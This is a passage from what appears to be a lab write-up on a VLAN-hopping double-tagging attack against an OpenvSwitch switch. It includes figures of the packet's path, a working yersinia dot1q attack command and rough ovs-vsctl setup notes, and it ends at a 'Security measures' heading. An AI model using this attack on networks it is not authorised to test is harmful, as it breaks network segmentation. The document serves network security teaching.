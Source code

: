 OpenvSwitch is also Linux based system, that, except for some peculiarities, will be configured similarly to the `Cumulus` device[12]

<center>
    
![](https://i.imgur.com/yrEyFcZ.png)
Picture 23. From the attacker to switch 2
    
![](https://i.imgur.com/2O1sLiZ.png)
Picture 24.  from switch 2 to switch 1
    
![](https://i.imgur.com/G30gs8Q.png)
Picture 25.  from the switch 1 to user of VLAN 200
    
</center>

As we can see in the pictures above, the packet has successfully traveled to the not intended VLAN 200, which mean we have successfully bypassed VLAN restrictions with the double-tagged packet

:::spoiler

2
sudo yersinia dot1q -attack 1 -vlan1 0200 -priority1 00 -cfi1 0 -l2proto1 800 -vlan2 0100 -priority2 00 -cfi2 0 -l2proto2 800 -ipsource 192.168.1.100 -ipdest 192.168.1.12 -ipproto 1 -payload YERSINIA -interface ens3

ovs-vsctl show
ovs-vsctl list Bridge
ovs-vsctl list port eth3

ovs-vsctl del-br br0
ovs-vsctl add-br ovs-br0
ovs-vsctl set port ovs-br0 tag=200
ovs-vsctl add-port ovs-br0 eth1
ovs-vsctl add-port ovs-br0 eth2
ovs-vsctl add-port ovs-br0 eth3
ovs-vsctl set port eth1 tag=100
ovs-vsctl set port eth2 tag=200
of
ovs-vsctl set port eth3 vlan_mode=(there 4 of them like native taggeg\non etc)

ovs-vsctl set port eth3 trunks=100,200
ovs-vsctl del-port ovs-br0 eth3


ifconfig eth0 0
ifconfig ovs-br0 10.0.7.1/24 up
ip r add default via 10.0.7.254

ovs-vsctl del-br br0
ovs-vsctl del-port ovs-br0 eth3
ovs-vsctl clear port ovs-br0 tag
https://habr.com/ru/post/242741/
:::

## Security measures
